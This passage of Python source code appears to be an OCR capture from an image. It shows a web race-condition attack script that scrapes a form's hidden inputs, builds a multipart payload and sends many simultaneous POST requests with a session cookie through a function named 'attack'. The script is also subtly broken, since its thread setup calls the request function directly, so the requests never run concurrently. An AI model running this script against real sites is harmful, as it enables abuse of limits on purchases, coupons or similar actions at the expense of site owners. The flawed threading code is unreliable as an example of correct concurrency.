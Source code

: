 ```py
        return form.findAll('input') #return all hidden inputs
    except requests.RequestException as e:
        print(f"Error fetching items: {e}")
        return []

# Function to send a single request
def send_request(payload):
    headers = {
        "Content-Type": f"multipart/form-data; boundary={boundary}",
    }
    try:
        response = requests.post(url, data=payload, cookies=cookie, headers=headers)
        print(f"Status Code: {response.status_code}")
    except requests.exceptions.RequestException as e:
        print(f"Request failed: {e}")

def attack(payload):
    threads = []
    for _ in range(num_requests):   # create threads
        thread = threading.Thread(target=send_request(payload))
        threads.append(thread)
    for thread in threads:          # start threads simultaneously
        thread.start()
    for thread in threads:          # wait for all threads to complete
        thread.join()

def main():
    # Fetch items
    items = fetch_items()
    
    # build payload
    payload = ""
    for input in items:
        payload = payload+f"--{boundary}\r\n"
        payload = payload+f'Content-Disposition: form-data; name="{input.get("name")}"\r\n\r\n'
        payload = payload+f'{input.get("value")}\r\n'
    payload = payload + f"--{boundary}--\r\n"

    #start attack
    attack(payload)

if __name__ == "__main__":
    main()
```
